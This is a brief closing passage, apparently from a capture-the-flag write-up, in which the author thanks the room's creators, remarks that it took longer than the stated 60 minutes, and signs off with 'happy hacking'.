Not too sure this should've taken 60 minutes as the room said, but either way Huge thanks to 4nqr34z and theart42 for making another great box. I hope this was helpful to anyone following along or stuck like I certainly was and happy hacking!
